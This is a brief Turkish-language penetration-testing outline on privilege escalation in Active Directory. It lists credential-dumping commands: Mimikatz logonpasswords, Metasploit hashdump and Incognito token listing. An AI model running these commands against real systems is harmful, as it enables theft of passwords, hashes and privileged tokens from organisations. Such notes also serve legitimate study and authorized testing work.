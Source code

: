 # Active Directory

# 1. Active Directory üzerinde Hak Yükseltme

* Parola Elde Etme (düz metin veya hash)
	- Mimikatz	
		- mimikatz # privilege::debug
		- mimikatz # sekurlsa::logonpasswords
	- run post/windows/gather/hashdump

* Yüksek Yetkilere Sahip Kullanıcı Hesabı Kullanımı
	- incognito.exe list_tokens -u

* Düz Metin Parola Kullanımı Kontrolleri
	- Dosya
	- Registry

* Kullanılabilecek Araçlar
	- Incognito
	- Mimikatz
	- Windows Credentials Editor (WCE)
	- Hashdump